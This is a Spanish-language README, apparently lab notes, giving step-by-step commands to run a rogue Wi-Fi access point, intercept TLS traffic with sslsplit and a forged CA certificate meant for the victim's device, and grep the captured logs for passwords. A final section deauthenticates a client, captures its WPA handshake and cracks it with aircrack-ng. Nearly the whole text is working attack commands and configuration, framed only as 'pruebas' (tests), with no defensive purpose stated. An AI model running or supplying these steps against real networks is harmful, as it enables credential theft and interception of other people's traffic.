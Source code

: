 Pinchar [aqui](https://github.com/luisesp19/ap/raw/main/ca.zip) para descargar el certificado

# Teclado ES

```
setxkbmap es sundeadkeys
```

# AP

Comprobar que el dispositivo está enchufado y detectado

```
iwconfig
```

Actualizar la lista de paquetes disponibles y sus versiones

```
sudo apt update
```

Modified hostapd to facilitate AP impersonation attacks

(hostapd modificado para facilitar ataques de impersonificación en puntos de acceso)

```
sudo apt install hostapd-wpe
```

```
cd
mkdir pruebas
cd pruebas
```

```
nano host.conf
```

```
interface=wlan0
driver=nl80211
country_code=ES
hw_mode=g
channel=1
ssid=Core Free

#auth_algs=1
#wpa=2
#wpa_key_mgmt=WPA-PSK
#wpa_pairwise=CCMP
#wpa_passphrase=12345678
```

# Redirección de tráfico

```
cd
cd pruebas
```

```
touch ip.sh
chmod 700 ip.sh
nano ip.sh
```

```
#!/bin/bash

iptables-legacy -F
iptables-legacy -t nat -F

iptables-legacy -X
iptables-legacy -t nat -X

iptables-legacy -P INPUT ACCEPT
iptables-legacy -P OUTPUT ACCEPT
iptables-legacy -P FORWARD ACCEPT

echo 1 > /proc/sys/net/ipv4/ip_forward

LAN_IF="eth0"

iptables-legacy -t nat -A POSTROUTING -o $LAN_IF -j MASQUERADE
```

# DHCP

```
sudo apt install isc-dhcp-server
sudo cp /etc/dhcp/dhcpd.conf /etc/dhcp/dhcpd.conf.ORIGINAL
sudo nano /etc/dhcp/dhcpd.conf
```

Descomentar la siguiente instruccion

```
#authoritative;
```

Añadir al final del documento

```
subnet 172.16.0.0 netmask 255.255.255.0 {
    range 172.16.0.100 172.16.0.240;
    option broadcast-address 172.16.0.255;
    option routers 172.16.0.1;
    option domain-name "local";
    option domain-name-servers 8.8.8.8, 8.8.4.4;
}
```

```
sudo nano /etc/default/isc-dhcp-server
```

Modificarlo de la siguiente forma

```
INTERFACESV4="wlan0"
# INTERFACESV6=""
```

# Iniciar

Nota: Correr en el mismo orden en caso de reiniciar el sistema

```
sudo ifconfig wlan0 172.16.0.1 netmask 255.255.255.0
sudo systemctl start isc-dhcp-server.service
sudo systemctl status isc-dhcp-server.service
```

```
cd
cd pruebas
```

```
sudo ./ip.sh
sudo iptables-legacy -t nat -nL
```

```
sudo airmon-ng check
sudo airmon-ng check kill
sudo airmon-ng check
```

```
sudo hostapd-wpe host.conf
```

# SSL

```
cd
cd pruebas
mkdir sslsplit
cd sslsplit
```

Generar el certificado. Debe ser instalado en el dispositivo de la víctima

```
openssl genrsa -out ca.key 4096
openssl req -new -x509 -days 1826 -key ca.key -out ca.crt
```

Editar el script "ip.sh" que teníamos y añadir debajo lo siguiente

```
iptables-legacy -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
iptables-legacy -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 5222 -j REDIRECT --to-ports 8080
```

Volver a lanzar

```
sudo ./ip.sh
sudo iptables-legacy -t nat -nL
```

```
cd
cd pruebas/sslsplit
mkdir logdir
```

## Iniciar SSL

```
mkdir /tmp/sslsplit
cd
cd pruebas/sslsplit
```

```
sudo sslsplit -D -l connections.log -j /tmp/sslsplit/ -S logdir/ -k ca.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
o
sudo sslsplit -D -l connections.log -j /tmp/sslsplit/ -S logdir/ -k ca.key -c ca.crt https 0.0.0.0 8443 tcp 0.0.0.0 8080
```

```
cd
cd pruebas/sslsplit
tail -f connections.log
```

```
cd
cd pruebas/sslsplit/logdir
ls -la
grep -r 'pass' ./
```

# Crack

Comprobar que el device ha sido detectado

```
iwconfig
```

```
sudo airmon-ng check
sudo airmon-ng check kill
sudo airmon-ng check
```

Comprobar wlan0 se ha convertido en wlan0mon

```
sudo airmon-ng start wlan0
iwconfig
```

```
sudo airodump-ng wlan0mon
coger el bssid y el canal para hacerlo más especifico:
cd
cd Desktop
sudo airodump-ng -c [canal del punto de acceso] -bssid [bssid del punto de acceso] -w objetivo wlan0mon
(en STATION coger la mac address del dispositivo que está conectado al punto de acceso. Se crearan algunos archivos llamados objetivo, entre ellos un .cap)

sudo aireplay-ng -0 5 -a [bssid del punto de acceso] -c [mac address del dispositivo que está conectado al punto de acceso] wlan0mon
tiene que mostrar algunas lineas de "Sending" y en el airodump-ng mostrarse el "handshake"

cd
cd Desktop
crear un contrasenas.txt con contraseñas (incluir la contraseña buena)
sudo aircrack-ng -w contrasenas.txt [el archivo .cap]
Se debe mostrar "KEY FOUND" y a continuación la contraseña
```

# Enlaces

```
https://blog.heckel.io/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/

https://alpaca-attack.com/
```

